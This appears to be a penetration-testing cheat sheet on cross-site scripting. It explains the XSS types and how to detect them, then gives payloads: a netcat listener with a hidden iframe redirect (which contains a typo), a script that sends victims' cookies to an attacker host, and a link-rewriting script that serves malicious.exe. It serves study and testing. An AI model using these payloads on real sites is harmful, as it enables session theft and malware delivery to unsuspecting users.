 # XSS

> Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application.

```bash
#The famous test script:
<script>alert('test')</script>
```

## Types of XSS

**Applications should sanitize all user inputs. Else, we can try to execute code.**

### Stored XSS:

Persistent XSS stored in a database. Every user who access the vulnerable page will receive the payload. Examples are: Forums and comment sections.

### Reflected XSS:

The payload is included in the URL. It only affects people accessing the malicious link. Example: Search bars.

### DOM-Based XSS:

Where content of an input is used to change something in the page. Example: Changing the background input.

_____

## Detecting XSS

In a persistent XSS, where we insert some input that will be stored in a database (like a forum or a comment section), we can try to add special characters in order to test how the application threats those characters.

For example, inserting the following in a comment section:

```bash
< > ; ""
```

If we inspect the results in the browser developer console and we see that these characters are not encoded, it's likely that the page is vulnerable to XSS.

_____

## Redirecting with XSS

Once we identify an XSS vulnerability, we can insert an invisible iframe in the page in order to redirect the client to our location.

```JavaScript
//Setup listener in attacker machine:
nc -nlvp $PORT
//Invisilble iframe to inject in the vulnerable page:
<iframe scr=$URL height="0" width="0"></iframe>
```

_____

## Stealing Cookies

If HttpOnly (deny JavaScript access cookies) cookie flag is not set, we can modify the payload to hijack user cookies (we should review other browser security controls, not only HttpOnly):

```JavaScript
<script>new Image().src="http://$IPADDRESS/image.jpg?output="+document.cookie;</script>
```

_____

## Download Malware

This will cause the user, clicking on the link supplied by the tester, to download the file malicious.exe from a site they control.

```bash
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexample.com/malicious.exe";}</script>
```

_____

## BeEF
> BeEF allows the professional penetration tester to assess the actual security posture of a target environment by using client-side attack vectors.
